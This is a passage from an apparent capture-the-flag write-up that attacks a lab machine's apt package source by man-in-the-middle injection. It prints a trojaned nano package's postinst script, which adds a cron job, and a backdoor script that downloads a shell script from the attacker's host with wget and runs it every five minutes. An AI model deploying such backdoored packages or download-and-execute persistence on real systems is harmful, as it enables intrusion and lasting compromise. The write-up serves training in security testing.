 The box is running Devuan Linux, a Linux distro for hipsters who don't like systemd. Interestingly, there's two different apt sources configured:

```
www-admin-data@onetwoseven:/$ ls -l /etc/apt/sources.list.d
total 8
-rw-r--r-- 1 root root 211 Feb 15 17:22 devuan.list
-rw-r--r-- 1 root root 102 Feb 15 17:22 onetwoseven.list

www-admin-data@onetwoseven:/$ cat /etc/apt/sources.list.d/onetwoseven.list
# OneTwoSeven special packages - not yet in use
deb http://packages.onetwoseven.htb/devuan ascii main
```

That's probably a hint on what we need to do.

I did some googling and found a nice blog explaining how to perform a Man-In-The-Middle (MITM) attack on apt-get: [https://versprite.com/blog/apt-mitm-package-injection/](https://versprite.com/blog/apt-mitm-package-injection/)

I generated a backdoored package for nano: `nano_3.0.0_amd64.deb`

The `postinst` adds a cronjob that executes `/bin/nano_backdoor` every 5 minutes:

```
# cat postinst
#!/bin/sh

set -e

if [ "$1" = "configure" ] || [ "$1" = "abort-upgrade" ]; then
    update-alternatives --install /usr/bin/editor editor /bin/nano 40 \
      --slave /usr/share/man/man1/editor.1.gz editor.1.gz \
      /usr/share/man/man1/nano.1.gz
    update-alternatives --install /usr/bin/pico pico /bin/nano 10 \
      --slave /usr/share/man/man1/pico.1.gz pico.1.gz \
      /usr/share/man/man1/nano.1.gz
fi

crontab -l | { cat; echo "*/5 * * * * /bin/nano_backdoor "; } | crontab -
```

`nano_backdoor` just downloads and executes a shell script from my box:

```
#!/bin/sh
rm /tmp/snowscan.sh
wget http://10.10.14.23/snowscan.sh -O /tmp/snowscan.sh
chmod 777 /tmp/snowscan.sh
/tmp/snowscan.sh
```

The `/devuan/dists/ascii/Release` looks like this:

```
# cat Release
Origin: Devuan
Label: Devuan
Suite: stable
Version: 2.0
Codename: ascii
Date: Wed, 20 Apr 2019 05:00:00 UTC
Architectures:  amd64
Components: main contrib non-free raspi beaglebone droid4 n900 n950 n9 sunxi exynos
SHA256:
 947ab0bff476deda21dbab0c705b14211718ed357d5ca75e707bea4bdc762c59 770 main/binary-amd64/Packages
 7c18ea11cba4acd2a3fdcea314c2b816787cecc4aaad2ae75667553cf700769b 551 main/binary-amd64/Packages.xz
```
